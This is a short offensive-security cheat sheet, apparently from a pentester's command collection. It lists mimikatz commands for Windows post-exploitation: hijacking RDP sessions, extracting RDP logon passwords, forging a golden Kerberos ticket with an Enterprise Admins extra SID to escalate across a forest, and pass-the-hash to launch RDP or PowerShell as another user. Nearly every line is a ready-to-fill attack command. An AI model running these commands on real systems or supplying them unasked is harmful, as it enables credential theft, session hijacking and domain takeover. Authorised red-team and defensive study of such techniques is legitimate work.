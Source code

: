 ## mimikatz - rdp - Hijack session 
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
ts::remote /id:<id>
```

## mimikatz - rdp - Extract passwords
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
ts::logonpasswords
```


% mimikatz, ad


## mimikatz - forest extra SID
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID
	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth
## mimikatz pth to RDP mstsc.exe
#plateform/windows  #target/local  #cat/PIVOT 
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

## mimikatz pth run powershell remotelly
#plateform/windows  #target/local  #cat/PIVOT 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```
